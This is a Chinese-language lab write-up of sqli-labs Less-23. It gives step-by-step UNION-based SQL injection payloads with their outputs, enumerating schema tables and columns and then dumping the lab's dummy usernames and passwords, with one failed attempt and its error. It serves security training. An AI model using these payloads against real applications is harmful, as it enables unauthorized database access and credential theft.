

# level23

+ 正常注入

~~~ shell
?id=1'or '1' = '1
~~~

~~~ shell
?id=-1' union select 1,database(),version() or '1'='1
~~~

~~~ shell
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:2
Your Password:innodb_table_stats,innodb_index_stats,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMNS_EXTENSIONS,COLUMN_STATISTICS,EVENTS,FILES,INNODB_DATAFILES,INNODB_FOREIGN,INNODB_FOREIGN_COLS,INNODB_FIELDS,INNODB_TABLESPACES_BRIEF,KEY_COLUMN_USAGE,KEYWORDS,PARAMETERS,PARTITIONS,REFERENTIAL_CONSTRAINTS,RESOURCE_GROUPS,ROUTINES,SCHEMATA,SCHEMATA_EXTENSIONS,ST_SPATIAL_REFERENCE_SYSTEMS,ST_UNITS_OF_MEASURE,ST_GEOMETRY_COLUMNS,STATISTICS,TABLE_CONSTRAINTS,TABLE_CONSTRAINTS_EXTENSIONS,TABLES,TABLES_EXTENSIONS,TABLESPACES_EXTENSIONS,TRIGGERS,VIEW_ROUTINE_USAGE,VIEW_TABLE_USAGE,VIEWS,COLUMN_PRIVILEGES,ENGINES,OPTIMIZER_TRACE,PLUGINS,PROCESSLIST,PROFILING,SCHEMA_PRIVILEGES,TABLESPACES,TABLE_PRIVILEGES,USER_PRIVILEGES,cond_instances,error_log,events_waits_current,events_waits_history,events_waits_history_long,events_waits_summary_by_host_by_event_name,events_waits_summary_by_instance,events_waits_summary_by_thread_by_event_name,events_waits_summary_by_user_by_event_name,events_wait
~~~

~~~ shell
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="FILES" or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:2
Your Password:database_name,table_name,last_update,n_rows,clustered_index_size,sum_of_other_index_sizes,database_name,table_name,index_name,last_update,stat_name,stat_value,sample_size,stat_description,CHARACTER_SET_NAME,DEFAULT_COLLATE_NAME,DESCRIPTION,MAXLEN,CONSTRAINT_CATALOG,CONSTRAINT_SCHEMA,CONSTRAINT_NAME,CHECK_CLAUSE,COLLATION_NAME,CHARACTER_SET_NAME,ID,IS_DEFAULT,IS_COMPILED,SORTLEN,PAD_ATTRIBUTE,COLLATION_NAME,CHARACTER_SET_NAME,TABLE_CATALOG,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME,ORDINAL_POSITION,COLUMN_DEFAULT,IS_NULLABLE,DATA_TYPE,CHARACTER_MAXIMUM_LENGTH,CHARACTER_OCTET_LENGTH,NUMERIC_PRECISION,NUMERIC_SCALE,DATETIME_PRECISION,CHARACTER_SET_NAME,COLLATION_NAME,COLUMN_TYPE,COLUMN_KEY,EXTRA,PRIVILEGES,COLUMN_COMMENT,GENERATION_EXPRESSION,SRS_ID,TABLE_CATALOG,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME,ENGINE_ATTRIBUTE,SECONDARY_ENGINE_ATTRIBUTE,SCHEMA_NAME,TABLE_NAME,COLUMN_NAME,HISTOGRAM,EVENT_CATALOG,EVENT_SCHEMA,EVENT_NAME,DEFINER,TIME_ZONE,EVENT_BODY,EVENT_DEFINITION,EVENT_TYPE,EXECUTE_AT,INTERVAL_VALUE,INTERVAL_FIELD
~~~

+ 在这一步不知道是什么问题，无法提取数据了，并报错

~~~ shell
?id=-1' union select group_concat(database_name) from FILES or '1'='1
~~~

~~~ text
Welcome    Dhakkan

Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in E:\phpstudy\phpstudy_pro\WWW\sqli-labs\Less-23\index.php on line 38
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'or '1'='1' LIMIT 0,1' at line 1
~~~

+ 重新换一个回显位，并重复以上的三项爆破，这次成功了

~~~ shell
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),3 or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:emails,referers,uagents,users
Your Password:1
~~~

~~~ shell
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name="users" and table_schema="security"),3 or '1'='1
~~~

~~~text
Welcome    Dhakkan
Your Login name:id,password,username
Your Password:1
~~~

~~~ shell
?id=-1' union select 1,(select group_concat(username,password) from users),3 or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:DumbDumb,AngelinaI-kill-you,Dummyp@ssword,securecrappy,stupidstupidity,supermangenious,batmanmob!le,adminadmin,admin1admin1,admin2admin2,admin3admin3,dhakkandumbo,admin4admin4
Your Password:1
~~~

